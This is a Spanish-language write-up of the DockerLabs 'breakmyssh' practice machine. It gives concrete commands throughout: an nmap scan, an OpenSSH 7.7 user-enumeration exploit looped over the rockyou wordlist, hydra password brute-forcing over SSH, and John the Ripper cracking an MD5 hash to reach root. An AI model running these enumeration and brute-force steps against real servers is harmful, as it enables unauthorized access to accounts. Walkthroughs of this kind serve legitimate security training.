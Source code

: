 Deplegamos maquina de dockerlabs con

`sudo ./auto_deploy.sh breakmyssh.tar`

hacemos un brarido con nmap para lista los puertos abiertios usando 

`sudo nmap -p- --open -sS -sCV --min-rate 5000 -n -Pn -vvv 172.17.0.2 -oN scaning.txt`

![Pasted image 20240615112936](https://github.com/JSinning/breakssh/assets/43380469/74529ddc-0652-488b-81a2-ccaedee05746)

observamos que solo se encientra el puerto 22  abierto  ssh con un version 7.7.  Esto  no da nocion para investigar si tienen vulnerabilidades este puerto asi que usando `searchsploit` investigamos que posdemons hacer

`searchsploit OpenSSH 7.7`

![Pasted image 20240615113841](https://github.com/JSinning/breakssh/assets/43380469/7890dc04-f194-4449-9d02-5cf662644d57)

luego de  investigar vemos encontramos varios exploits de enumeracion de usuarios. en este caso la usaremos el exploit  45939 que la versimon 2 del mismo que se encuentra al inicio de la lista

`searchsploit -m linux/remote/45939.py`

luego de tenerlos en nuestra carperta conel el comando anterior lo renombramos con el nombre de exploit.py,  y seguimos las instrucciones para ejecuntarlo y pasar una lista se usarios y ver que cuales son validos.

usando esta la siguiente liene de comando 

`cat /usr/share/wordlists/rockyou.txt | while read use; do python2 exploit.py 172.17.0.2 $use 2>/dev/null; done | grep -vi invalid`

validamos que usarion son validos a nivel de sistama ya que leyendo el rockyou creamos un cilclo donde vamos interando por cada nombre  y  adicional quitamos todos los usuarios que tenta el invalid en alguna de sus linea de esta manera solo veremos los usuarios vaidos

![Pasted image 20240615121025](https://github.com/JSinning/breakssh/assets/43380469/9dfba079-e54a-4c14-aac1-c857b7aeaf4a)


vemos que el usario lovely es valido asi que para proceder usaremos la heramineta hydar para ver si el usario tiene un contraseña que se liste en un fichero como lo es el rockyou

`hydra -l lovely -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

bingo hemos encontra un usaruo y constraseña valido para inicar secion en ssh usando hydara
![Pasted image 20240615123133](https://github.com/JSinning/breakssh/assets/43380469/0439cd38-ad75-46a8-8732-d1b155262afc)

 ahora con el usuarios lovely y al contraseña rockyou inicamis sesion por SSH entra a la maquina 

`ssh lovely@172.17.0.2`

luego de busacar por varios minutos y haber buscado por todo el entramos a la carperta opt y ejecutando `ls -la` ya vemos una archivo oculto .hash que el siguiente `aa87ddc5b4c24406d26ddad771ef44b0` pasando por hashid nos dan como resultado que un hash md5.
![Pasted image 20240615124516](https://github.com/JSinning/breakssh/assets/43380469/418c9362-4a05-43c7-8e7b-20de57cfc555)

asi que procedemos a decodificar este hash usando joho the riper

john -w /usr/share/wordlists/rockyou.txt hash --format=Raw-md5

![Pasted image 20240615125327](https://github.com/JSinning/breakssh/assets/43380469/98aa940d-e54f-4c1a-9a39-94763a61bf2f)

asi que encontramos dos posible contraseñas para porobar con el usario root
 usando de nuevo hydara vemos que el la contraseña del usurio root es estrella
![Pasted image 20240615125603](https://github.com/JSinning/breakssh/assets/43380469/45c129d4-97e1-4b3c-a07f-c515a887567a)

asi inicimos secion y hemos consegudo nuestr  maquina de dcokerlabs breakssh

`by juandas13` 
